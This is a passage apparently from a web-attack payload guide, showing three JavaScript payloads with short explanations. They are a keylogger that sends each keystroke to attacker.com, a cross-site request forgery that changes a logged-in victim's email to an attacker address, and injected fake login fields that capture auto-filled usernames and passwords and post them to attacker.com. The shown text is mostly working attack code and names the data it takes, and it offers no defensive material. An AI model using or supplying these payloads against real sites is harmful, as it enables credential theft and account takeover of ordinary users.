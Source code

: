 **Payload: Keylogging via `document.onkeypress`**

```javascript
document.onkeypress = function(e) {
    fetch("http://attacker.com/steal", {
        method: "POST",
        body: JSON.stringify({ key: e.key })
    });
};
```

**Why This Works:**

* Can capture **usernames, passwords, credit card numbers** typed into web forms.
* Often used in **phishing attacks** or **malicious browser extensions**.

***

#### 5. Cross-Site Request Forgery (CSRF)

Attackers can **force logged-in users** to perform unauthorized actions.

**Payload: Forcing a Victim to Change Email Address**

```javascript
let xhr = new XMLHttpRequest();
xhr.open("POST", "https://victim.com/change-email", true);
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.send("email=attacker@evil.com");
```

**Why This Works:**

* If the victim is **already logged in**, the request is executed **with their session credentials**.
* Common targets include **bank transfers, password resets, and account modifications**.

***

#### 6. Capturing Auto-Filled Credentials

Attackers can **inject fake login fields** and capture **auto-filled** credentials.

**Payload: Creating Fake Login Fields**

```javascript
let fakeInput = document.createElement("input");
fakeInput.type = "text";
fakeInput.name = "username";
document.body.appendChild(fakeInput);

let fakePass = document.createElement("input");
fakePass.type = "password";
fakePass.name = "password";
document.body.appendChild(fakePass);

setTimeout(() => {
    fetch("http://attacker.com/steal", {
        method: "POST",
        body: JSON.stringify({
            username: document.getElementsByName("username")[0].value,
            password: document.getElementsByName("password")[0].value
        })
    });
}, 5000);
```
